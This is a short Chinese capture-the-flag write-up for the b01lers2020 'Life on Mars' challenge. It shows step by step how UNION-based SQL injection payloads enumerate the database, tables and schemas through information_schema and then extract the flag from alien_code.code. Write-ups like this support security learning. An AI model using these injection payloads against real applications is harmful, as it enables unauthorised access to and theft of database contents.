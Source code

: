 # [b01lers2020]Life on Mars 一个接口的sql schema.schemate表

这里还是很简单的



<img src="https://i-blog.csdnimg.cn/blog_migrate/1a45a2e93a457385d44aadfe922963a9.png" alt="" style="max-height:501px; box-sizing:content-box;" />


啥也没有

然后抓包看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/44c58295a855feaf12dd09799b91f6d1.png" alt="" style="max-height:103px; box-sizing:content-box;" />


发现传递参数 直接尝试sql

然后如果正确就会返回值 否则 返回1

```scss
chryse_planitia union select database(),version()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4e6800f05ef0ede1cabd155892fc940f.png" alt="" style="max-height:69px; box-sizing:content-box;" />


发现回显直接开始注入

```csharp
chryse_planitia union select database(),version()


chryse_planitia union select database(),group_concat(table_name) from information_schema.tables where table_schema="aliens"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ef74e5600db2aa5d77e3e43d72fe9261.png" alt="" style="max-height:50px; box-sizing:content-box;" />


太多了 不切实际一个一个查 看看有没有其他数据库

```scss
chryse_planitia union select database(),group_concat(schema_name) from information_schema.schemata
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4cf398693b46449fccc481c57c8e174a.png" alt="" style="max-height:66px; box-sizing:content-box;" />


然后就是正常的注入

最后查值的时候

```cobol
from alien_code.code 即可
```

```cobol
/query?search=amazonis_planitia union select 1,group_concat(code) from alien_code.code
```